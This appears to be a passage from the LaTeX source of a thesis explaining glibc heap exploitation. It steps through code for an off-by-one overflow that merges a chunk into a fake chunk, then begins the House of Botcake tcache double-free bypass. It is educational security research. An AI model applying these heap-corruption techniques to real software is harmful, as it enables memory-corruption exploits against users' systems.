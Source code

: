 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\tch{tcache}
\newcommand*\mallocc{\lstinline{malloc}}
\begin{document}
Now we need another chunk inside the heap:

\begin{lstlisting}[language=c,frame=tlrb]
b = (uint8_t*) malloc(0xf8);
int real_b_size = malloc_usable_size(b);
uint64_t* b_size_ptr = (uint64_t*)(b - 8);
\end{lstlisting}

Now we use \lstinline{a} in order to overflow and manipulate the size of \lstinline{b}.

\begin{lstlisting}[language=c,frame=tlrb]
a[real_a_size] = 0;
\end{lstlisting}

 Now it is time to set \lstinline{prev_size} of our fake chunk to an in order to merge it with our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
*(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
fake_chunk[1] = fake_size;
\end{lstlisting}

The final step is free \lstinline{b} after free \lstinline{b} it is merged without fake chunk, so next \mallocc{} returns our fake chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(b);
d = malloc(0x200);
\end{lstlisting}


\subsection{ The House of Botcake}
The goal is to bypass \libc{} security checks in newer versions to perform a \tch{} double-free attack.
Consider the following code, like always, first; we assume our target is at the stack.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t stack_var[4];
\end{lstlisting}
Now, we allocate seven chunks to fill up the \tch{} in the future. As we remember, we did this trick before too.

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *x[7];
for(int i=0; i<sizeof(x)/sizeof(intptr_t*); i++){
	x[i] = malloc(0x100);
}
\end{lstlisting}

The next step is to define a chunk to merge \lstinline{prev} and define the victim \lstinline{a}; also, we define a small chunk to prevent merge chunks with the top chunk after free.
\end{document}
